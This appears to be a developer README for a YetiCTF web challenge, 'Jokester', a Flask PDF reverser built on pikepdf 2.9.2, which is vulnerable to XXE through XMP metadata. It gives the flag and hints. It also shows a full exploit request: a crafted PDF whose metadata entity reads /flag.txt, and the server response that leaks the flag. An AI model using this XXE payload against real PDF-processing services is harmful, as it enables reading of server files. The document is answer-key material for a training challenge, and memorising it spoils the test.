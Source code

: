 # Info for YetiCTF developers
## Category
```
Web
```
## Name
```
Jokester
```
## Description
```
Мой друг долго не мог понять, что не так с pdf'кой с того сайта. АХАХАХ 
/flag.txt
<ссылка>
```
## Flag
```
YetiCTF{1eV3l_ulTRa_H4ck3r}
```
## Hints
```
1. Где храниться метаданные в pdf файлах?
2. Что за сущность такая?
3. xmp -> xxe (Это на случай если никто не решит и до конца останеться 30 минут)
```

# Other useful info
## TODO/issues
Crontab don't working in docker container. This can lead to out of storange, beacause all uploaded pdfs save in /tmp/pdfcache.
## Deploy
```
docker build -t flask/flask_docker .
docker run -d -p 4040:4040 flask/flask_docker.
```

## Application
Web flask based python application for reverse pdf files (first page = last page and last page = first page).

## Vulnerabulity
Application use pikepdf 2.9.2 lib. This lib vulnerable to xmp xxe in pdf file, while reading pdf metadata. When you loading pdf file, you can check: pdf version, page quantity, metadata(vuln). See more in exploit chapter.

## Exploit
### Request

```
POST / HTTP/1.1
Host: 192.168.50.232:4040
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2035132012485856836846648411
Content-Length: 38238
Origin: http://192.168.50.232:4040
Connection: close
Referer: http://192.168.50.232:4040/
Upgrade-Insecure-Requests: 1

-----------------------------2035132012485856836846648411
Content-Disposition: form-data; name="file"; filename="malicose_new.pdf"
Content-Type: application/pdf

%PDF-1.4
%¿÷¢þ
1 0 obj
<< /Metadata 3 0 R /Pages 4 0 R /Type /Catalog >>
endobj
2 0 obj
<< /CreationDate (D:20211011185659+05'00') /ModDate (D:20211011185659+05'00') /Producer (iText® 5.5.11 ©2000-2017 iText Group NV \(AGPL-version\)) /Title <feff04170430044f0432043b0435043d04380435> >>
endobj
3 0 obj
<< /Subtype /XML /Type /Metadata /Length 326 >>
stream
<?xpacket begin='\xef\xbb\xbf' id='W5M0MpCehiHzreSzNTczkc9d'?>
<!DOCTYPE rdf:RDF [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image'>
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
<note>
<to>&xxe;</to>
<from>xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx</from>
</note>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='w'?>

endstream
endobj
4 0 obj
<< /Count 1 /Kids [ 5 0 R ] /Type /Pages >>
endobj
5 0 obj
<< /Contents 6 0 R /MediaBox [ 0 0 612 792 ] /Parent 4 0 R /Resources << /Font << /F1 7 0 R /F2 8 0 R >> >> /Type /Page >>
endobj
6 0 obj
<< /Filter /FlateDecode /Length 947 >>
stream
xKKQÇgnp3m£õµe\xÉdÖ6øªh¸¶H-ØM?"¨ý Mc¢¦.,ì¹wrîÄJüqÿó¿wîÉ¶/XI;ÈºvaÃ-X«Ö¶äI/ðíïk/BrÓröµ¶´7,/m~ÚÞ²ü ¤/¼4O¦½Gæ?

[...SOME PDF DATA...]


0000004537 00000 n 
0000018684 00000 n 
trailer << /Info 2 0 R /Root 1 0 R /Size 17 /ID [<fbb909c8e1ac9e809ed63bb50b18fa2a><aa5ddc7af815478197a1ba39b3a0768d>] >>
startxref
37455
%%EOF

-----------------------------2035132012485856836846648411--

```

### Response

```
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 21 Oct 2021 14:41:16 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 3091

<!doctype html>
<title>PDF Reverser - PDF Reverser</title>
<link rel="stylesheet" href="/static/css/bootstrap.css">

[...SOME HTML...]

    </div>
    <div id="collapseThree" class="collapse" aria-labelledby="headingThree" data-parent="#accordionExample">
      <div class="card-body">
        &lt;x:xmpmeta xmlns:x=&#34;adobe:ns:meta/&#34; x:xmptk=&#34;Image&#34;&gt;
&lt;rdf:RDF xmlns:rdf=&#34;http://www.w3.org/1999/02/22-rdf-syntax-ns#&#34;&gt;
&lt;note&gt;
&lt;to&gt;YetiCTF{1eV3l_ulTRa_H4ck3r}
&lt;/to&gt;
&lt;from&gt;xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&lt;/from&gt;
&lt;/note&gt;
&lt;/rdf:RDF&gt;
&lt;/x:xmpmeta&gt;
      </div>
    </div>
  </div>
</div>
<div class="container text-center">  
</div>
</section>

<script type="text/javascript" src="/static/js/jquery-3.6.0.min.js"></script>
<script type="text/javascript" src="/static/js/bootstrap.js"></script>
```